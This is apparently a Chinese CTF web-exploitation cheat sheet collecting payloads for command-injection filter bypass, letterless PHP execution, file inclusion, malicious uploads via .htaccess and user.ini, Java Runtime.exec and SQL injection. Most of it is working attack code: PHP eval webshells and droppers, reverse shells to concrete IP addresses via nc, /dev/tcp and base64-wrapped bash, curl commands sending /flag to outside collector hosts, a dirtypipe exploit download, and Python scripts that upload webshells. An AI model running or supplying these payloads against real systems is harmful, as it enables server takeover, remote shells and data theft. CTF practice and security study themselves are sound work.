echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php

```

https://fushuling.com/index.php/2023/03/04/%e5%88%a9%e7%94%a8shell%e8%84%9a%e6%9c%ac%e5%8f%98%e9%87%8f%e6%9e%84%e9%80%a0%e6%97%a0%e5%ad%97%e6%af%8d%e6%95%b0%e5%ad%97%e5%91%bd%e4%bb%a4/

无字母十足

### 某个字母被 ban 的绕过方法

https://tr0jan.top/archives/74/ bash绕过

```text
1. 反斜线转义 cat fla\g.php
2. 两个单引号做分隔 cat fl''ag.php
3. base64编码绕过 echo Y2F0IGZsYWcucGhw | base64 -d | sh
4. hex编码绕过 echo 63617420666c61672e706870 | xxd -r -p | bash
5. glob通配符 cat f[k-m]ag.php  cat f[l]ag.php
6. ?和*
7. cat f{k..m}ag.php
8. 定义变量做拼接 a=g.php; cat fla$a
9. 内联执行cat `echo 666c61672e706870 | xxd -r -p` 或 cat $(echo 666c61672e706870 | xxd -r -p) 或 echo 666c61672e706870 | xxd -r -p | xargs cat
cat `echo 2f666c6167 | xxd -r -p`
八进制绕过
$0<<<$0\<\<\<\$\'\\154\\163\\40\\57\'
$'\143\141\164'<$'\57\146\154\141\147'   重定向

10.指定字符
11.sort+/flag
12.rev
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261 //报错出文件内容

```

var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

拼接执行

`1.tar | echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC81aTc4MTk2M3AyLnlpY3AuZnVuLzU4MjY1IDA+JjEn | base64 -d | bash |`

```php
if(preg_match('/f|l|a|g/',$a))
只过滤命令参数

function=file_get_contents&cmd=http://47.99.125.16/3.php
都过率

function=strtolower&cmd=show_source(chr(47).chr(102).chr(49).chr(97).chr(103));

More `php -r "echo chr(102).chr(49).chr(97).chr(103);"`

ls / |script 1.txt 写入1.txt

```

```text
Eval函数

使用system一般有回显，`ls`一般要用echo来输出

无回显问题：

python -m http.server 80 	开启监听
php://filter/resource 最短

php -S localhost:8000   linux 启动php

nc -lp 3939

nc 47.99.125.16 3389 -e /bin/bash
nc 47.99.125.16 3389 -e /bin/sh

echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OS4xMjUuMTYvMzM4OSAgMD4mMSc= | base64 -d | bash 
a';CALL SHELLEXEC('bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45OS4xMjUuMTYvMzM4OSAgMD4mMSc=}|{base64,-d}|{bash,-i}');--+


        1 & echo "bash -i >& /dev/tcp/47.99.125.16/3389 0>&1" > /tmp/hack.sh
        1 & bash /tmp/hack.sh

echo bash -c 'bash -i >& /dev/tcp/49.232.224.59/3389  0>&1' | base64 -d | bash |

bash -c 'exec bash -i &>/dev/tcp/49.232.224.59/3389 <&1'
反弹shell

.可以被。代替

curl 192.168.74.129/123		访问
curl -v -X OPTIONS 检查访问

Curl  3fjcznyppzdq1o2py3z4lwkw0n6eu4it.oastify.com  -T  /tmp/Syclover  传输数据

​             -o  shell.php  下载文件到
 -o  shell.php 
curl  https://haxx.in/files/dirtypipez.c  -o shell.c

Curl  -t 192.169.1.1 /flag      极客大挑战2023 Web方向题解wp 全-CSDN博客.html

?url=http://ip:1337/' -F file=@/flag '

```

 查看端口进程：

`lsof -i :<port>`

- crypto.randomBytes用于密码学随机数, 无法预测
- setTimeout在超时时间大于32-bit signed integer时会被置为1
- 删除的文件可以从/proc/PID/fd/fd_num路径读取

### ping 题目

```text
冒号过滤 ----%0a代替

$(printf "\154\163") 执行ls --绕过反引号``

 思路：

黑名单绕过rce，用16进制编码绕过：aaa=hex2bin('73797374656d')('uniq /f*');

日志替换

/var/log/nginx/access.log

学到了sed p /[e-g][0-2]* ;这种读文件的方法，转换下sed p /[e-g][i-m]* ;就相当于cat /flag了

nl ->uniq

空格${IFS}

**#可以使用mv将flag.php文件移动到其他文件 然后访问文件拿到flag** ?c=mv${IFS}fla?.php${IFS}a.txt

$(())是0

$((~$(())))是-1

$(($((~$(())))$((~$(())))))是-2

```

```text
读取文件

c=include$_POST[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

文件日志包含再用include

c=var_export(scandir("/"));exit();

Eval闭合?>

c=highlight_file("/flag.php"); c=include("/flag.txt"); c=require("/flag.txt"); c=include_once("/flag.txt"); c=require_once("/flag.txt");

有Include函数包含，在require包含会跳过，这里绕过使用

php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php 

--requice跳过

c=$a=opendir('/');while(($file = readdir($a)) !=false){echo $file." ";}

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}  #扫描根目录有什么文件

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->getFilename()." ");} 

读取根目录文件

 

 1、查看源码以后发现在最后输出的环节，他将数字和字母全部都转换为了“?”号，可以通过“exit();”，将后续代码闭合。

  2、扫描目录：

c=$a=opendir('/');while(($file=readdir($a)) != false) {echo $file."";}exit();

passthru(“ls /“);

```

https://www.jianshu.com/p/8ba94b174348

### 无参数读取

1、system(current(getallheaders()));
2、get_defined_vars()
3、session_id()

```php
eval(hex2bin(session_id(session_start())));
 
print_r(current(get_defined_vars()));&b=phpinfo();
 
eval(next(getallheaders()));
 
var_dump(getenv(phpinfo()));
 
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
 
print_r(scandir(next(scandir(getcwd()))));//查看上一级目录的文件

```

```text

# phpinfo(): [~%8F%97%8F%96%91%99%90][~%CF]();

#查看shell在第几个：
# var_dump(getallheaders())： [~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]());

#返回shell
# var_dump(next(getallheaders())): [~%89%9E%8D%A0%9B%8A%92%8F][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));

#执行shell
# system(next(getallheaders())): [~%8C%86%8C%8B%9A%92][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));

```

//此处我用的官方wp的exp脚本

```php
/?exp=eval(file_put_contents("1.php",base64_decode($_POST['a'])));

POST:

a=PD9waHAKaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOwojIFBvcnQgc2Nhbgpmb3IoJGk9MDskaTw2NTUzNTskaS

srKSB7CiAgJHQ9c3RyZWFtX3NvY2tldF9zZXJ2ZXIoInRjcDovLzAuMC4wLjA6Ii4kaSwkZWUsJGVlMik7CiAgaW

YoJGVlMiA9PT0gIkFkZHJlc3MgYWxyZWFkeSBpbiB1c2UiKSB7CiAgICB2YXJfZHVtcCgkaSk7CiAgfQp9Cg==

扫描可用端口
    
cmd=var_dump(file(array_rand(array_flip(scandir(current(localeconv()))))));

var_dump(get_cfg_var("disable_functions"));

var_dump(get_cfg_var("open_basedir"));

var_dump(ini_get_all());相关配置信息

get_loaded_extensions()查看所有编译并加载的模块

 
if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));
 print_r(array_rand(array_flip(scandir(getcwd())))); 随机读取

highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件

print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位

 //查看和读取根目录文件

print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));

 

show_source(array_rand(array_flip(scandir(chr(ord(strrev(crypt(serialize(array())))))))));

$a->lover="mkdir('a');chdir('a');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('.'));";

 

$a->lover="mkdir('a');chdir('a');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('.'));readfile('f1ger');"

echo file_get_contents("/ctfshowflag");

 //查看和读取根目录文件

————————————————=>获得路径为/var/html

?code = print_r(getcwd());

=>查看路径下内容没有可用的

?code = print_r(scandir(getcwd()))

=>探测上一级为Array ( [0] => . [1] => .. [2] => flag_phpbyp4ss [3] => html )

?code = print_r(scandir(dirname(getcwd())))

=>发现flag文件，进行读取

?code = readfile(next(array_reverse(scandir(dirname(getcwd())))))

=>发现报错，不存在flag_phpbyp4ss文件，更改工作目录

?code = readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))))

 

拿到数组最后一个

show_source(end(scandir(getcwd())));

 

get_defined_vars ( void ) : array 返回由所有已定义变量所组成的数组

 

?code=eval(end(current(get_defined_vars())));&b=phpinfo();
echo(implode(scandir(chr(strrev(uniqid())))));

```

```php
echo(new+DirectoryIterator('glob:///f*'));

```

### 不含数字和字母

https://www.freebuf.com/articles/network/279563.html


```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
注意：执行的时候要进行一次 URL 编码，否则 Payload 无法执行。

```

```php
$black_list=array('^','.','`','>','<','=','"','preg','&','|','%0','popen','char','decode','html','md5','{','}','post','get','file','ascii','eval','replace','assert','exec','$','include','var','pastre','print','tail','sed','pcre','flag','scan','decode','system','func','diff','ini_','passthru','pcntl','proc_open','+','cat','tac','more','sort','log','current','\\','cut','bash','nl','wget','vi','grep');

```

hex2bin('73797374656d')(hex2bin('636174202f666c6167'));

(~%8C%86%8C%8B%9A%92)(~%93%8C);要注意传参类型问题

低版本木马多用`assert(eval($_POST[test]))`

```php
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8B%9A%8C%8B%DD%A2%D6%D6);

```

绕过disablefunction用蚂蚁🗡

### 提权题目

nginx

(14.04)[https://blog.knownsec.com/2016/11/nginx-exploit-deb-root-privesc-cve-2016-1247/ ]

```bash
find / -perm -u=s -type f 2>/dev/null    //查看具有suid权限的命令

find / -perm -4000 2>/dev/null     //这个也可以

定时触发可能有定时任务 cat /etc/crontab

lsb_release -a，列出所有linux系统版本信息
nginx -v，列出nginx版本信息

```

 pkexec --version

查看版本

grep -rl "NSS**" /path/to/search 查找指定内容

find / -type f -exec grep -l "NSSCTF{" {} +

Auto_prepend_file  phpinfo

多重变量覆盖extract尝试session_id=session_id

${}执行代码

eval

assert

preg_replace

create_function()

array_map()

call_user_func()/call_user_func_array()

array_filter()

usort(),uasort()

---

## ⚙️ 七、代码执行

> [!summary] 速览
> - 变量名里塞空格 / 特殊字符，PHP 解析时会先去掉空格，代码依旧能跑
> - 经典特性 **Use of undefined constant**：未加引号的字符串被当作字符串（PHP < 7.2 仍存在）
> - ASCII > `0x7F` 的字符与 `0xFF` 异或相当于取反，可绕过被过滤的取反符号
> - 无字母数字调用函数：`?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo`
> - 与 `.htaccess` 联动的 Python 上传 / 利用脚本

例题一


现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样代码还能正常运行，还上传了非法字符。

例题二：


例题三：


Php的经典特性“Use of undefined constant”，会将代码中没有引号的字符都自动作为字符串，7.2开始提出要被废弃，不过目前还存在着。

Ascii码大于 0x7F 的字符都会被当作字符串，而和 0xFF 异或相当于取反，可以绕过被过滤的取反符号。

调用函数

可以传入phpinfo，也可以进入第二层get_the_flag 函数

```jinja
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag

```

python脚本htaccess联动使用

```python
import requests
import base64

htaccess = b"""#define width 1337
#define height 1337 
AddType application/x-httpd-php .abc
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_d99081fe929b750e0557f85e6499103f/shell.abc"
"""
shell = b"GIF89a12" + base64.b64encode(b"<?php eval($_REQUEST['a']);?>")
url = "http://c2b7d2d9-4f7b-4796-ae5a-015ceb2c32e5.node3.buuoj.cn//?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.abc',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

---

## 📂 八、文件包含

> [!summary] 速览
> - 先背路径：nginx 配置与日志、`/usr/share/nginx/html`、`/var/log/nginx` 等
> - **方法一（CVE-2018-14884）**：`php://filter/string.strip_tags` 触发 PHP 7 段错误清栈重启，若同时有上传，tmp 文件会一直留在 `/tmp`
> - 命中版本区间才有用：7.0.0–7.1.2 / 7.1.3–7.2.1 / 7.2.2–7.2.8
> - 读 flag：`?file=php://filter/convert.base64-encode/resource=/nice/../../proc/self/cwd/flag.php`

配置文件存放目录：/etc/nginx

主配置文件：/etc/nginx/conf/nginx.conf

管理脚本：/usr/lib64/systemd/system/nginx.service

模块：/usr/lisb64/nginx/modules

应用程序：/usr/sbin/nginx

程序默认存放位置：/usr/share/nginx/html

日志默认存放位置：/var/log/nginx

配置文件目录为：/usr/local/nginx/conf/nginx.conf

### 方法一：PHP 7 segment fault 特性（CVE-2018-14884）

使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录

- php7.0.0-7.1.2可以利用， 7.1.2x版本的已被修复

- php7.1.3-7.2.1可以利用， 7.2.1x版本的已被修复

- php7.2.2-7.2.8可以利用， 7.2.9一直到7.3到现在的版本已被修复

- 可以获取文件名

- 源代码将GET参数进行文件包含

- ```python
  import requests
  from io import BytesIO #BytesIO实现了在内存中读写bytes
  payload = "<?php eval($_POST[cmd]);?>"
  data={'file': BytesIO(payload.encode())}
  url="http://b75582fa-5dab-4f76-8734-1c591cb88d31.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
  r=requests.post(url=url,files=data,allow_redirects=False)
  

  ```

  方法二

  

  ```text
  ?file=php://filter/convert.base64-encode/resource=/nice/../../proc/self/cwd/flag.php
  

  ```

死亡exit

```text
content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?%3E%3C?php%0Deval($_POST[pass]);?%3E/resource=shell.php

```

---

## 📤 九、文件上传

> [!summary] 速览
> - **做题思路**：① 改后缀 → ② 木马加文件头（`CIF89` / `GIF89a`）→ ③ 传 `user.ini`（`auto_prepend_file`）→ ④ 传 `.htaccess`
> - `.htaccess` 魔法：`php_value error_log` + `log_errors` 自定义错误日志写入（配合 `include_path`）
> - 其他套路：软链接、多文件包含、`phar://` + 条件竞争、老版本 Apache 解析漏洞 `1.php.1`
> - 可被 PHP 解析的后缀：`php / php3 / php4 / php5 / php7 / phtml / pht / phs / shtml / pwml`
> - PHP 标签：`<script language=php>`、`<% %>`（需 `asp_tags`）、`<? ?>`（需 `short_open_tags`）



```html
<form action="http://e0aced16-e5c4-4e03-8911-e9b3180ea03c.www.polarctf.com:8090/" enctype="multipart/form-data" method="post" >
    
    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />
   
</form>
//上传表单

```

做题思路:

1.先改后缀名

2.php木马过滤<?(头部尝试CIF89)

```text
#define width 1337
#define height 1337 
AddType application/x-httpd-php .feng
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_c41893938531041badacfc22febe3abd/123.feng

```

3.user.ini配置文件(都加这个文件)

```ini
auto_prepend_file=01.gif

```

4.高阶魔法

魔法一：利用.htaccess文件

error_log结合log_errors自定义错误日志([例题](XNUCA2019Qualifier]EasyPHP)

这题要你能控制写入文件

```ini
php_value include_path "/tmp/%2bADw-%3fphp eval($_GET[code]);__halt_compiler();"%0d%0aphp_value error_reporting 32767%0d%0aphp_value error_log /tmp/fl3g.php%0d%0a%23\

php_value include_path "/tmp/+ADw-?php eval($_GET[code]);__halt_compiler();"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
#\

#先进行配置文件再利用utf-7利用
php_value include_path "/tmp"%0d%0aphp_value zend.multibyte 1%0d%0aphp_value zend.script_encoding "UTF-7"%0d%0a%23\

利用#直接写木马
filename=.htaccess&content=php_value%20auto_prepend_fi\%0Ale%20%22.htaccess%22%0A%23%3C%3fphp%20%40eval(%24_GET[%27cmd%27])%3b%20%3f%3E\

```

魔法二:

软链接

https://peri0dctf.gitbook.io/buuojwp/python/flask/swpu2019-web3

```text

1. `ln -s /proc/self/cwd/flag/flag.jpg test`

2. `zip -ry test.zip test`
Linux下/self/cwd/会指向进程的当前目录

ln -s /etc/passwd test 相当于新建一个链接到/etc/passwd的文件test，对test使用cat等命令会自动指向/etc/passwd

```

多文件包含

```http
POST / HTTP/1.1

 Content-type: multipart/form-data;boundary=--------------------------55split 

User-Agent: Firefox 

Accept: */* Host: 192.168.1.113 

Accept-Encoding: gzip, deflate 

Connection: close 

Content-Length: 362 

 ----------------------------55split 

Content-Disposition: form-data; name=""; filename="1.py" 

Content-Type: application/octet-stream  

HWO 

----------------------------55split 

Content-Disposition: form-data; name="flag" 

Content-Type: application/octet-stream 

php://filter/read=convert.base64-encode/resource=flag.php 

----------------------------55split--

```

一句话木马：

<script language='php'></script>

逻辑漏洞、文件内容检测绕过

文件头是位于文件开头的一段承担一定任务的数据，一般开头标记文件类型，如gif的gif89a，或gif87a， png的x89PNG\x0d\x0a,等等

php的解释器可以解析：php、php3、php4、php5、php7、phtml、pht、phs、shtml、pwml~不过本题除了后两个，前面全部被waf拉黑了~

$file=1.php.1 //apache2.x解析漏洞，输入/.是不会解析的

$file=1.pwml //php解释器绕过

con=<?php @eval($_POST[cmd]);?>&file=test.php/ 递归目录会截断

Php特性：

<script language="php">echo '123'; </script> 无问号

<% echo '123';%>  #开启配置参数asp_tags=on，并且只能在7.0以下版本使用

<? echo '123';?>  #前提是开启配置参数short_open_tags=on

phar://协议可以读取任意后缀压缩包中的内容，如.zip。

为题目中有写文件的函数，所以可以通过file_put_contents写phar文件，然后再通过file_put_contents触发phar反序列化。当然我们得在删除文件前执行完这两个操作，所以需要用到条件竞争。

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps1.jpg`

```apache
AddType application/x-httpd-php .xxxphp_value auto_append_file "php://filter/convert.base64-decode/resource=shell.xxx"
```

#### .htaccess

就是更改解析设置了

```ini
AddType application/x-httpd-php png
php_value auto_append_file /flag

```

### 字符绕过

trick：在Linux系统下1.php.是一个合法的文件名，系统不会自动把最后的点去掉并把文件当成php文件执行，所以点绕过只在Windows下有用 1.php/.

十六进制可绕过，s改为S

1.

**// 将小s改为大S; 做处理后 \75是u的16进制， 成功绕过**

2.
3.

$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';

4.
5.

GET:?web=O:3:"syc":1:{S:5:"lo\76er";s:18:"assert($_POST[1]);";

POST:1=要执行的代码

解决办法是将https改成http。（https太安全了呜呜呜）编码器记得选base64

Pop链条构造eval函数里面调用函数要记得system(‘ls’);

 if (';' === preg_replace('/\[^\s\(\)]+?\((?R)?\)/', '', $var)){

```php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
eval($_GET['code']);
} else {
    show_source(__FILE__);
}

```

正则表达式：/[oc]:\d+:/i。意思是过滤这两种情况：o:数字:与c:数字:

 \W,(注意这个W是大写的)，匹配非字母、数字、下划线。等价于[^A-Za-z0-9_]。

 所以[^\W]是对上面的\w取反: 匹配所有字母数字下划线的字母。

s 代表让 . 也可以匹配换行符。

(\s)*: 匹配零个或者多个空白字符 空格 制表符 换页符

(\n)+: 匹配一个或多个换行符

/i : 匹配时不区分大小写

?R:嵌套

^\s\(\) 表示匹配除了空格、左括号和右括号之外的任意字符。

禁用数字和小写字符，可用${IFS}这种取值，如果给出环境变量内容，利用构造nl显示.

->>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>ctfshow构造{IFS} - 简书.html(117题)

%0aphp 遇到多行匹配%0a换行

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps2.jpg`

POST /?ctf=a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22CCC%22%3A3%3A%7Bs%3A1%3A%22a%22%3BN%3Bs%3A1%3A%22c%22%3BO%3A3%3A%22AAA%22%3A2%3A%7Bs%3A1%3A%22s%22%3BO%3A3%3A%22BBB%22%3A1%3A%7Bs%3A6%3A%22%00BBB%00b%22%3Bs%3A20%3A%22.+%2F%3F%3F%3F%2F%3F%3F%3F%3F%3F%3F%3F%3F%5B%40-%5B%5D%22%3B%7Ds%3A1%3A%22a%22%3Bs%3A4%3A%22eval%22%3B%7Ds%3A1%3A%22b%22%3BR%3A3%3B%7Di%3A0%3BN%3B%7D HTTP/1.1

Host: localhost

User-Agent: python-requests/2.31.0

Accept-Encoding: gzip, deflate

Accept: */*

Connection:close

Content-Length:155

Content-Type: multipart/form-data; boundary=c25447769cf9fc1afc13ede702b4279d

--c25447769cf9fc1afc13ede702b4279d

Content-Disposition: form-data; name="file"; filename="file"

**#/bin/sh**cat /*

--c25447769cf9fc1afc13ede702b4279d--

POST /?ctf=O%3A3%3A%22CCC%22%3A3%3A%7Bs%3A1%3A%22c%22%3BO%3A3%3A%22AAA%22%3A2%3A%7Bs%3A1%3A%22s%22%3BO%3A3%3A%22BBB%22%3A1%3A%7Bs%3A1%3A%22b%22%3Bs%3A20%3A%22.+%2F%3F%3F%3F%2F%3F%3F%3F%3F%3F%3F%3F%3F%5B%40-%5B%5D%22%3B%7Ds%3A1%3A%22a%22%3Bs%3A9%3A%22lewiserii%22%3B%7Ds%3A1%3A%22a%22%3BN%3Bs%3A1%3A%22b%22%3BR%3A6%3B% HTTP/1.1

Host: 192.168.100.100:10033

Content-Length: 186

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: null

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0xXn6nlxZVqh49pS

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Connection: close

------WebKitFormBoundary0xXn6nlxZVqh49pS

Content-Disposition: form-data; name="file"; filename="1.txt"

Content-Type: text/plain

cat /f*

------WebKitFormBoundary0xXn6nlxZVqh49pS--

Set_error_handler

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps3.jpg`

---

## ☕ 十、Java 命令执行与 OQL 查询

> [!summary] 速览
> - `java.lang.Runtime.getRuntime().exec(...)` 的几种变形，含反引号外带与 base64 包裹
> - 取回显：`BufferedReader(InputStreamReader(exec(...).getInputStream()))`、`Scanner`
> - 用工具的 **OQL 查询**搜 `password` 关键字，拿数据库连接密码

```java
java.lang.Runtime.getRuntime().exec('curl http://`47.99.125.16/`cat /flag`')

java.lang.Runtime.getRuntime().exec('bash -c {echo,curl  http://`cat /flag`.os34jtkl.requestrepo.com/}|{base64,-d}|{bash,-i}')

java.lang.Runtime.getRuntime().exec('bash -c {echo,Y3VybCAgaHR0cDovL2BjYXQgL2ZsYWdgLm9zMzRqdGtsLnJlcXVlc3RyZXBvLmNvbS8=}|{base64,-d}|{bash,-i}')

```

```java
 new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("cat /flag").getInputStream())).readLine() 
     
 new java.util.Scanner(java.lang.Runtime.getRuntime().exec('cat
/flag').getInputStream())

```

```sql
利用该工具的OQL查询功能,查询password关键字得到数据库连接密码
查询语句如下:
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))
或
select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))

```

---

## 🗄️ 十一、SQL 注入

> [!summary] 速览
> - 备份与恢复：`mysqldump -uroot -p blog>nyg.sql`、`mysql -u root -p123456 blog< x.sql`
> - 闭合不一定是单引号，也可能是双引号；万能密码 `"or 1=1--+`
> - 联合查询取库表列：`union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3#`
> - 盲注与列数：`order by` / `group by` 测列数，`/**/` 代替空格
> - 堆叠注入：`';handler FlagHere open;handler FlagHere read first#`、`PREPARE ... EXECUTE`
> - 无列名注入：`select 1,2 as a union select * from flag` 先起别名再继续注入
> - 常见绕过：结果里不能出现 `flag` 用 `to_base64` / `hex`；不能出现数字用 `replace()` 逐个替换



导出备份

```bash
mysqldump -uroot -p  blog>C:/Users/admin/Desktop/nyg.sql
#输入
mysql -u root -p123456 blog< c:\20090219.sql

```

(select 'admin' username,'123' password)a

创建新表

### 更新段表

1';upDate%09items%09set%09price=1%09Where%09id=8;#

有时候不一定是’闭合，可能是”

万能密码："or 1=1--+

admin"\**\order\**\by\**\3#

### 注入 1

' or 1=1 order by 3#

a' union select 1,database(),3 #

a'  union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3#

a'  union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='web2' and table_name='flag' ),3#

查询的信息可以回显，说明是union注入，然后要判断字段数。

?id=TMP0919' Order by 1#

看回显

?id=1' uNion Select 1,2,3,4,5#

查询表名

?id=1' uNion Select ((sElect grOup_cOncat(tAble_name) From infOrmation_schema.tables Where Table_schema=Database())),2,3,4,5%23

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps4.png`

查询字段名

id=1' uNion Select ((sElect grOup_cOncat(column_name) From infOrmation_schema.columns WhereTable_name='here_is_flag')),2,3,4,5%23

查询Flag值:

?id=1' uNion Select ((sElect grOup_cOncat(flag) From here_is_flag)),2,3,4,5%23

0' union select 1#

密码是1

ᴬᴰᴹᴵᴺ

```text
'^0#   '^''#   '<>1#   '<1#   '&0#   '<<0#   '>>0#   '&''#   '/9#

```

'^0# 分号可以用于闭合，井号可以用于注释，^进行异或运算，等号就是判等，这里需要利用sql的一个点“mysql弱类型转换”，空异或0会查到所有非数字开头的记录

admin加空格来绕过（sql约束攻击）

userid=1' union select "<?php eval($_POST[1]);?>" into outfile "/var/www/html/shell.php"#&userpwd=1

爆破session密码

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps5.jpg`

session可能在的地方 ..././..././..././etc/config.py

python3 .\flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.XyEaww.Iwc6W-s4ACfLuJX9SNYhvTPbb1k' -s '82.5659952704'

python3 .\flask_session_cookie_manager3.py encode -s '82.5659952704' -t "{'username': b'fuck'}"

测试数据：

`1;show databases;#`

### Handler 注入

';handler `1919810931114514` open;handler `1919810931114514` read first#

拼接注入

```sql
1';PREPARE st from concat('s','elect', ' * from `1919810931114514` ');EXECUTE st;#

```

### 布尔盲注

if(1=1,1,sleep(3)) // 1=1恒成立，因此会输出1

if(1=2,1,sleep(3)) //1=2不成立，则会执行最后的sleep函数，延迟3秒后回显

1'&&sleep(5)#

